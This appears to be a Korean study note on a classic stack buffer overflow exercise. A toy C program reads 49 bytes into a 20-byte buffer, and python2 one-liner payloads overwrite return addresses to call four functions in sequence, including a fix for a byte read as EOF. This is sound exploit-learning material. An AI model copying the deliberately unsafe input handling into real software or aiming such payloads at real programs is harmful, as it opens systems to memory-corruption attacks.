





# Multi Function Call 1

### Question

- func1, func2, func3, func4 순서대로 실행

```
#define MAX 49
#define BUFFER_SIZE 20
void func1() { printf("Run Func1!\\n"); }
void func2() { printf("Run Func2!\\n"); }
void func3() { printf("Run Func3!\\n"); }
void func4() { printf("Run Func4!\\n"); }
int main(int argc, char *argv[])
{
	char buf[BUFFER_SIZE];
	printf(" What your name : ");
	fgets(buf, MAX, stdin);
	printf("\\nYour Name is %s", buf);
	dumpcode((unsigned char *)buf, 100);
}

```


<br>


## Analysis

**1)**

```
printf("0x%x\\n", func1);
printf("0x%x\\n", func2);  
printf("0x%x\\n", func3); 
printf("0x%x\\n", func4);
```

- 위 코드로 함수 주소 확인

```
python2 -c "print 'A'*24 + '\\x80\\x11\\x40\\x00' + '\\x90\\x11\\x40\\x00' + '\\xa0\\x11\\x40\\x00' + '\\xb0\\x11\\x40\\x00'" | .\\multi_func_1.exe
```

- 위 페이로드 실행

    
    

<br>

**2)**

```
python2 -c "print 'A'*24 + '\\x80\\x11\\x40\\x00' + '\\x90\\x11\\x40\\x00' + '\\xa0\\x11\\x40\\x00' + '\\xb0\\x11\\x40\\x00'" | .\\multi_func_1.exe
```

- 위 페이로드 실행

    
    	→ '\x1a'가 EOF로 인식되어 의도한 주소값이 제대로 입력되지 않음

<br>

**3)**







```
python2 -c "print 'A'*24 + '\\x40\\x12\\x40\\x00' + '\\x60\\x12\\x40\\x00' + '\\x80\\x12\\x40\\x00' + '\\xa0\\x12\\x40\\x00'" | .\\multi_func_1.exe
```


<br>


### Reference

- [https://veath.tistory.com/45](https://veath.tistory.com/45)
